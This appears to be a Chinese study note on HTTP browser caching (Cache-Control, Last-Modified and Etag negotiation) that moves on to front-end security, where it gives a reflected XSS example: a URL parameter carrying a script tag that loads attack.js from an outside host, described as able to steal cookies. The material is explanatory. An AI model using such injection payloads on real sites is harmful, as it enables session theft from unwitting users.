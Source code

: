 - 优势特点
  - http1.1的产物，以时间间隔标识失效时间，解决expires服务器和客户端相对时间的问题
  - 比expires多了很多选项设置
- 劣势问题
 - 存在版本问题，到期之前的修改客户端是不可知的
举例：比如你和一个美国的面试官约定面试时间，明天9点钟（expires），从现在算起再过10小时（cash-control）

协商缓存
- 协商缓存的状态码由服务器决策返回200或304
- 当浏览器缓存失效的时候或者请求头中设置了不走强缓存，并且在请求头中设置了If-Modifed-since或者If-None-Match的时候，会将这两个属性值到服务端去验证是否命中协商缓存。如果命中协商缓存，会返回304状态，加载浏览器缓存，并且响应头会设置Etag或者Last-Modified
- 对比缓存在请求数上和没有缓存是一致的，但如果是304的话，返回的仅仅是一个状态码而已，并没有实际的文件内容，因此在响应体体积上的节省是它的优化点。
- 协商缓存有两组字段，控制协商缓存的字段有Last-Modified/If-Modified-since（http1.0）和Etag/If-None-Match（http1.1）
- last-Modified/If-Modified-since表示服务器的资源最后一次修改时间。Etag/If-None-Match表示的是服务器资源的唯一标识，只要资源变化，Etag就会重新生成
- Etag/If-None-Match的优先级高于last-Modified/If-Modified-since

协商缓存（Last-Modified/If-Modefined-since）
- 服务器通过Last-Modified告知客户端，资源最后一次被修改的时间，例如“Last-Modified:Mon, 10 Nov 2018 09:10:11 GMT”
- 浏览器将这个值一起记录在缓存数据库中
- 下一次请求相同资源时，浏览器从自己的缓存中找出“不确定是否过期”的缓存，因此在请求头中将上次的last-Modified的值写入到If-Modified-since字段
- 服务器会将Last-Modified和If-Modified值进行比较，如果相等，则表示未修改，返回304；反之则表示修改了，返回200状态码，并返回数据
- 优势特点
 - 不存在版本问题，每次请求都回去服务器进行校验，服务器对比最后修改时间，如果相同则返回304，反之返回200
- 劣势问题
 - 只要资源修改，无论内容是否发生实质性变化，都会将该资源返回客户端。例如周期性重写，这种情况下包含的数据实际上一样的。
 - 以时刻进行标识，无法识别1s内进行多次修改的情况。如果资源更新速度是秒以下单位，那么该缓存是不能被使用的，因为它的时间单位最低是秒
 - 某些服务器不能精准的得到文件的最后修改时间
 - 如果文件是通过服务器动态生成的，那么该方法的更新时间永远是生成时间，尽管文件可能没有变化，所以起不到缓存的作用

协商缓存（Etag/If-None-Match）
- 为了解决上述问题，出现了一组新的字段，Etag和If-None-Match
- Etag存储的是文件的特殊标识（一般是hash生成），服务器存储着Etag字段。之后的流程和Last-Modified一致。只是Last-Modified字段和它所表示的更新时间改变成了Etag和它所表示的文件hash，把If-Modified-Since变成If-None-Match，服务器同样进行比较，命中返回304，不命中返回200
- 浏览器在发起请求时，服务器会返回在Response header中返回请求资源的唯一标识，在下一次请求时会将上一次返回的Etag值赋值给If-None-Match，并添加在Request header中。服务器将浏览器传来的If-None-Match值和自己本地的资源E-tag进行对比，如果匹配则返回304通知浏览器读取本地缓存，否则返回200和更新后的资源
- Etag优先级高于Last-Modified
- 优势特点
 - 可以更加精准的判断资源是否被修改，可以识别1s内多次修改的情况
 - 不存在版本问题，每次修改都回去服务器进行校验
- 劣势问题
 - 计算Etag值需要性能损耗
 - 分布式服务器存储的情况下，计算Etag的算法如果不一样，会导致浏览器从一台服务器上获得页面内容后，到另外一台服务器上进行验证时出现Etag不匹配的情况 


 ## 前端安全
- XSS（跨站脚本攻击）：攻击者利用网站漏洞将代码注入到其他用户浏览器的攻击方式，常见类型：反射型（非持久性）、存储型（持久性）、DOM型
- CSRF（跨站请求伪造）：攻击者可以在用户不知情的情况下，窃用其身份在对应的网站进行操作
- 中间人攻击（MITM）：攻击这在通讯的两端分别创建独立的联系，在通讯中充当一个中间人的角色对数据进行监听、拦截甚至篡改。

1. XSS跨站脚本攻击
反射型（非持久性）
原理：攻击者通过在URL插入恶意代码，其他用户访问该恶意链接时，服务端在URL取出恶意代码后拼接至HTML中返回用户浏览器
要点：通过URL插入恶意代码、有服务端参与、需要用户访问特定链接
例如
```
攻击者诱导被害者打开链接 baidu.com?name=<script src="http://a.com/attack.js"/>。

被攻击网站服务器收到请求后，未经处理直接将 URL 的 name 字段直接拼接至前端模板中，并返回数据。

被害者在不知情的情况下，执行了攻击者注入的脚本（可以通过这个获取对方的 Cookie 等）。
```
